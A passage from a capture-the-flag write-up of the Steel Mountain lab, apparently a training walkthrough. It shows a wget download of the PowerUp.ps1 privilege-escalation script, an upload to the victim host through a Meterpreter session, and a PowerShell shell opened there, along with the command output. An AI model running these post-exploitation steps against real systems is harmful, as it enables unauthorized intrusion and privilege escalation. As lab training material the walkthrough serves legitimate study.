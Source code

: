 ```bash
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
```
{% endraw %}

<br />
Download PowerUp.ps1.

{% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountain# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
--2025-02-25 12:24:24--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 600580 (587K) [text/plain]
Saving to: \u2018PowerUp.ps1\u2019

PowerUp.ps1                                          100%[=====================================================================================================================>] 586.50K  --.-KB/s    in 0.007s  

2025-02-25 12:24:24 (85.5 MB/s) - \u2018PowerUp.ps1\u2019 saved [600580/600580]
```
{% endraw %}

<br />
Upload PowerUp.ps1 to the victim machine.

{% raw %}
```bash
meterpreter > upload PowerUp.ps1
[*] Uploading  : /root/Rooms/steelmountain/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /root/Rooms/steelmountain/PowerUp.ps1 -> PowerUp.ps1
[*] Completed  : /root/Rooms/steelmountain/PowerUp.ps1 -> PowerUp.ps1
```
{% endraw %}

<br />
Load the powershell meterpreter extension and drop into a PowerShell shell.

{% raw %}
```bash
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS >
```
{% endraw %}

<br />
Run all of the checks a part of the PowerUp script.  Look for something with unquoted service path and CanRestart is True.
